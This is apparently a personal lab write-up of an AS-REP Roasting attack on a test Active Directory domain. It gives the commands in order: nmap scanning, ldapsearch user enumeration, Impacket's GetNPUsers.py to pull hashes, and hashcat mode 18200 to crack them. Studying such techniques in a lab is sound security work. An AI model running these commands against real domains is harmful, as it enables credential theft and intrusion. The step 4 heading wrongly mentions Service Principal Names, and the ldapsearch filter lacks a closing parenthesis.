 # 🧨 AS-REP Roasting Attack Walkthrough

## 🧠 Overview

AS-REP Roasting is a technique that allows an attacker to retrieve encrypted authentication responses from Active Directory without valid credentials, but only if the target accounts have “Do not require Kerberos pre-authentication” enabled. The attacker can then attempt to crack these responses offline to recover plaintext passwords.
- **Tactic:** Credential Access
- **Technique:** [AS-REP Roasting (T1558.004)](https://attack.mitre.org/techniques/T1558/004/)
- **Objective:** Obtain plaintext passwords of service accounts with weak hashes to gain initial access.

---

## ⚙️ Lab Setup

- **Attacker Machine:** Kali Linux
- **Target Environment:** Windows Active Directory
  - 1x Domain Controller (Windows Server 2019)
  - 2x Windows 10 clients
- **SIEM:** Splunk Enterprise logging DC and endpoint activity

---

## 🚩 Red Team Steps

### 1. Discover Live Hosts on the subnet with Nmap
Identifies which machines are active and available for further reconnaissance.
```
nmap -sn 10.80.80.0/24 
```
### 2. Scan the machines of interest for exposed services and ports
Reveals the Domain Controller and attack surface for the machine.
```
nmap -sV -O 10.80.80.2
```
### 3. Enumerate Domain Users
The nmap scan would reveal services open to exploitation. In my case, the LDAP server was exposed. I then used ldapsearch to return every entry in the directory, formatted the list and saved it to a txt file.
```
ldapsearch -x -H ldap://10.80.80.2 -b "DC=ad,DC=lab" "(objectClass=user" | grep "sAMAccountName" | sort | cut -d " " -f2 > users.txt
```
### 4. Use Impacket's getNPUsers to identify Users with Service Principal Names
This step identifies users who have pre-authentication disabled. These accounts are vulnerable to AS-REP Roasting. The tool will request TGTs and output hashes that can be cracked offline.
```
python3 /usr/share/doc/python3-impacket/examples/GetNPUsers.py ad.lab/ -usersfile users.txt -dc-ip 10.80.80.2
```
### 5. Crack the hash using Hashcat and a password list
After retrieving AS-REP hashes, I used Hashcat to crack them offline. These hashes use RC4-HMAC encryption and are compatible with mode 18200 in Hashcat.
```
hashcat -m 18200 asrep_hashes.txt /usr/share/wordlists/rockyou.txt
```
Once cracked, I had low-level but valid credentials.

## 🏁 Conclusion: Gaining Initial Access

This phase of the attack demonstrates how an attacker with no existing credentials can gain a foothold in an Active Directory environment by taking advantage of accounts that have Kerberos pre-authentication disabled.

Using tools like ldapsearch, Impacket’s GetNPUsers.py, and Hashcat, I was able to enumerate domain users, identify vulnerable accounts, and crack a user’s password offline. With valid domain credentials, the attacker now has an initial presence inside the network.

This access provides a foundation for post-exploitation steps such as privilege escalation, lateral movement, and further enumeration within the environment.




















